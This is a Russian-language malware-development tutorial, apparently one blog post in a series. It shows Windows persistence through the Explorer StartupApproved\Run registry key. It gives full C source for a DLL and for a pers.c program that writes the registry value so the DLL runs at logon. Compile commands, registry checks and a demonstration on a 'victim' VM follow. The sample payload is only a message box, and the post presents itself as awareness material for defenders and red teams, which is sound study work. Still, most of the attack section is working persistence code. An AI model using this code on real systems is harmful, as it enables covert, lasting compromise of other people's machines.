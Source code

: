 \newpage
\subsection{90. разработка вредоносного ПО: закрепление (persistence) - часть 24. StartupApproved. Простой пример на C.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/117/2024-03-15_01-04.png){width="80%"}    

Этот пост основан на моем собственном исследовании еще одной интересной техники закрепления вредоносного ПО: через ключ реестра `StartupApproved`.     

### StartupApproved

В самом первом посте серии о закрепления я писал об одной из самых популярных и уже классических техник - через [ключи реестра Run keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html).      

Необычная запись в реестре, используемая стандартным процессом "автозагрузки" (т. е. тем, который в основном управляется проводником Windows, такими как ключи `Run` и `RunOnce`, папка автозагрузки и т. д.) после завершения работы `userinit.exe`, находится в следующем месте в реестре:    
```bash
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run
```

Оказывается, этот ключ заполняется при включении или отключении записей на вкладке `Автозагрузка` диспетчера задач Windows:     

![pers](./images/117/2024-03-15_00-47.png){width="80%"}    

Хорошая новость в том, что мы можем использовать этот путь в реестре для закрепления.     

### практический пример

Прежде всего, проверяем ключи реестра с помощью следующей команды:    

```powershell
reg query 
"HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved"
 /s
```

![pers](./images/117/2024-03-14_23-57_1.png){width="80%"}    

На следующем шаге, как обычно, создаем наше "вредоносное" приложение (`hack.c`):     

```cpp
/*
hack.c
simple DLL messagebox
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Как обычно, просто окно с сообщением `meow-meow`.      

Затем мы просто модифицируем ключ реестра `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved`, например, так (`pers.c`):     

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00};

  const char* path = 
  "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\
  StartupApproved\\Run";
  const char* evil = "Z:\\2024-03-12-malware-pers-24\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, 
  &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;
}
```

Как можно видеть, логика нашего Proof of Concept довольно проста - мы устанавливаем значение записи в реестре в бинарный формат `0x02 0x00...`.      

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, компилируем нашу "вредоносную" DLL:      

```bash
x86_64-w64-mingw32-g++ -shared -o hack.dll hack.c -fpermissive
```

![pers](./images/117/2024-03-14_21-50.png){width="80%"}    

Затем компилируем наш PoC:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/117/2024-03-14_21-51.png){width="80%"}    

Наконец, запускаем его на машине жертвы. В моем случае, для Windows 10 x64 v1903 VM, это выглядит так:     

```powershell
.\pers.exe
```

![pers](./images/117/2024-03-15_00-46.png){width="80%"}    

Как можно видеть, я также повторно проверил реестр:     

```powershell
reg query \
"HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved" \
/s
```

![pers](./images/117/2024-03-15_00-46_1.png){width="80%"}    

Затем выходим из системы и входим снова:     

![pers](./images/117/2024-03-15_00-50.png){width="80%"}    

![pers](./images/117/2024-03-15_00-51.png){width="80%"}    

Но неожиданно для меня это не сработало...    

Затем я просто обновил имя записи:     

![pers](./images/117/2024-03-15_00-54.png){width="80%"}    

Вышел и снова вошел в систему, немного подождал... и все сработало идеально....

![pers](./images/117/2024-03-15_01-03.png){width="80%"}    

![pers](./images/117/2024-03-15_01-04.png){width="80%"}    

Таким образом, я обновил одну строку в моем скрипте:    

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00};

  const char* path = 
  "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\
  StartupApproved\\Run";
  const char* evil = "C:\\temp\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, 
  &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;
}
```

Но есть одна оговорка. Иногда, когда я тестировал эту функцию, она запускала, например, Skype:     

![pers](./images/117/2024-03-14_23-56.png){width="80%"}    

![pers](./images/117/2024-03-14_23-57.png){width="80%"}    

Как можно видеть, все сработало идеально, как и ожидалось! =^..^= :)    

Эта техника используется APT-группами, такими как [APT28](https://attack.mitre.org/groups/G0007/), [APT29](https://attack.mitre.org/groups/G0016/), [Kimsuky](https://attack.mitre.org/groups/G0094/) и [APT33](https://attack.mitre.org/groups/G0064/) в реальных атаках. По правде говоря, этот метод широко применяется и распространен благодаря своей высокой эффективности в обмане жертв.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[ATT&CK MITRE: T1547.001](https://attack.mitre.org/techniques/T1547/001/)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[APT33](https://attack.mitre.org/groups/G0064/)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2024-03-12-malware-pers-24)     
